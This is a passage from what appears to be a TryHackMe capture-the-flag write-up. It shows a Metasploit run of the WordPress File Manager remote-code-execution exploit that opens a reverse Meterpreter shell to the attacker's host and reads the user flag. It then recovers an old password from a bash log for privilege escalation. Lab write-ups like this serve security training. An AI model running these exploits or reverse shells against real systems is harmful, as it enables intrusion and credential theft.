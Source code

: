```bash
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_file_manager_rce

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(multi/http/wp_file_manager_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set rport 8080
rport => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set lhost tun0
lhost => 10.8.162.183
msf6 exploit(multi/http/wp_file_manager_rce) > run
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/DcRjvs.php
[*] Sending stage (40004 bytes) to 10.10.152.27
[+] Deleted DcRjvs.php
[*] Meterpreter session 1 opened (10.8.162.183:4444 -> 10.10.152.27:45926) at 2025-07-22 19:29:24 +0200

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 3362 created.
Channel 0 created.
whoami
cth
cd home
cd cth
ls
user.txt
cat user.txt
THM{227906201d17d9c45aa93d0122ea1af7}

```

# Privilege Escalation

Now for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we find the old password :

```bash
cat /var/log/bash.log
Script started on 2021-03-23 21:05:06+0000
cth@badbyte:~$ whoami
cth
cth@badbyte:~$ date
Tue 23 Mar 21:05:14 UTC 2021
cth@badbyte:~$ suod su

Command 'suod' not found, did you mean:

  command 'sudo' from deb sudo
  command 'sudo' from deb sudo-ldap

Try: sudo apt install <deb name>

cth@badbyte:~$ 'G00dP@$sw0rd2020' 

G00dP@: command not found
cth@badbyte:~$ passwd
```